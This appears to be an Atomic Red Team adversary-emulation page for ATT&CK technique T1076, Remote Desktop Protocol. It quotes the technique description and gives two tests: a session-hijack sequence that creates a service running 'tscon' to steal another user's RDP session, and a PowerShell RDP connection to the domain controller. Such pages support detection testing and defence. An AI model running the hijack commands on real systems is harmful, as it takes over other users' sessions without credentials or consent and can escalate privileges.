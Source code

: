# T1076 - Remote Desktop Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1076)
<blockquote>Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS). (Citation: TechNet Remote Desktop Services) There are other implementations and third-party tools that provide graphical access [Remote Services](https://attack.mitre.org/techniques/T1021) similar to RDS.

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1015) technique for Persistence. (Citation: Alperovitch Malware)

Adversaries may also perform RDP session hijacking which involves stealing a legitimate user's remote session. Typically, a user is notified when someone else is trying to steal their session and prompted with a question. With System permissions and using Terminal Services Console, <code>c:\windows\system32\tscon.exe [session number to be stolen]</code>, an adversary can hijack a session without the need for credentials or prompts to the user. (Citation: RDP Hijacking Korznikov) This can be done remotely or locally and with active or disconnected sessions. (Citation: RDP Hijacking Medium) It can also lead to [Remote System Discovery](https://attack.mitre.org/techniques/T1018) and Privilege Escalation by stealing a Domain Admin or higher privileged account session. All of this can be done by using native Windows commands, but it has also been added as a feature in RedSnarf. (Citation: Kali Redsnarf)</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP](#atomic-test-1---rdp)

- [Atomic Test #2 - RDPto-DomainController](#atomic-test-2---rdpto-domaincontroller)


<br/>

## Atomic Test #1 - RDP
RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) - how to hijack RDS and RemoteApp sessions transparently to move through an organization

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:rdp-tcp#55"
net start sesshijack
```


#### Cleanup Commands:
```
sc.exe delete sesshijack
```

<br/>
<br/>

## Atomic Test #2 - RDPto-DomainController
Attempt an RDP session via "Connect-RDP" to a system. Default RDPs to (%logonserver%) as the current user

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | String | $ENV:logonserver.TrimStart("\")|
| username | Username argument default %USERDOMAIN%\%username% | String | $Env:USERDOMAIN\$ENV:USERNAME|


#### Dependencies
| Description | Check Prereq Commands | Get Prereq Commands | 

      Description:
      Computer must be domain joined
    Check Prereq Commands:
      if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {0} else {1} 
    Get Prereq Commands:
      Write-Host Joining this computer to a domain must be done manually 
  
#### Run it with `powershell`! 
```
Connect-RDP -ComputerName #{logonserver} -User #{username}
```



<br/>
